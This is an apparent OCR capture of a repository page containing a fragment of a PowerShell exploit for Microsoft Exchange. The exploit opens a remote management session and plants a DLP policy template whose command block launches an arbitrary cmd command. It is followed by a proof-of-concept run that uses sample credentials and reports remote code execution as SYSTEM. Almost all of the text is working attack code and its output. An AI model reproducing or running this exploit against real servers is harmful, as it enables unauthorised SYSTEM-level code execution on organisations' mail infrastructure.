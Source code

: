 ```angular2
    $s = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://$server/PowerShell/ -Authentication Kerberos -Credential $creds

    $xml = @"
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ `$i=New-object System.Diagnostics.ProcessStartInfo;`$i.UseShellExecute=`$true;`$i.FileName="cmd";`$i.Arguments="/c $cmd";`$r=New-Object System.Diagnostics.Process;`$r.StartInfo=`$i;`$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>"@

    $n = Get-RandomAlphanumericString
    [Byte[]]$d = [System.Text.Encoding]::UTF8.GetBytes($xml)
    Invoke-Command -Session $s -ScriptBlock {
        New-DlpPolicy -Name $Using:n -TemplateData $Using:d 
    } | Out-Null
    "(+) executed $cmd as SYSTEM!"	
}

Get-PSSession | Remove-PSSession
Exploit-Exchange -server $server -usr $usr -pwd $pwd -cmd $cmd
```
> 利用方式
```angular2
researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) triggered rce as SYSTEM!
```
